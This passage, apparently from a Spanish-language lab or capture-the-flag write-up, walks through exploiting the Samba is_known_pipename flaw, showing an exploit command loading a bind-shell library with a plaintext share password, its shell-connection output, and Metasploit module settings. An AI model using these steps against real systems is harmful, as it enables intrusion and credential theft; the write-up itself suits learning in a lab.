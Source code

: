 ```
source impacket-env/bin/activate

```
Voy a ejecutar otra vez el exploit.

```
python3 exploit_fixed.py -t <IP-target> -e libbindshell-samba.so -s nebula_share -r libbindshell-samba.so -P 44544 -u bluffer -p 'w.v2rLTM7'
[*] Starting the exploit
[+] Authenticated, we are in!
[+] Preparing the exploit
[+] Expected exception from Samba (SMB SessionError): [Errno Connection error (10.10.143.162:445)] [Errno 111] Connection refused
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.10.143.162 at port 44544
[+] Shell connected! Sending commands...
>> pwd
>> ls

```
Bien, parece que funciona, pero no me permite interactuar con esta shell.
Voy a probar utilizar metasploit. Encuentro que existe un exploit para esta vulnerabilidad "linux/samba/is_known_pipename".

```
msf6 exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CHOST                            no        The local client address
   CPORT                            no        The local client port
   Proxies                          no        A proxy chain of format type:host:port[,typ
                                              e:host:port][...]
   RHOSTS                           yes       The target host(s), see https://docs.metasp
                                              loit.com/docs/using-metasploit/basics/using
                                              -metasploit.html
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable S
                                              MB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writ
                                              eable directory

msf6 exploit(linux/samba/is_known_pipename) > set RHOST <IP-target>
RHOST => <IP-target>
msf6 exploit(linux/samba/is_known_pipename) > set RPORT 44544
RPORT => 44544
msf6 exploit(linux/samba/is_known_pipename) > set SMB_SHARE_NAME nebula_share
SMB_SHARE_NAME => nebula_share

```
Funcionó, ya estoy dentro, ahora a buscar nombres de usuarios, contraseñas y el flag.
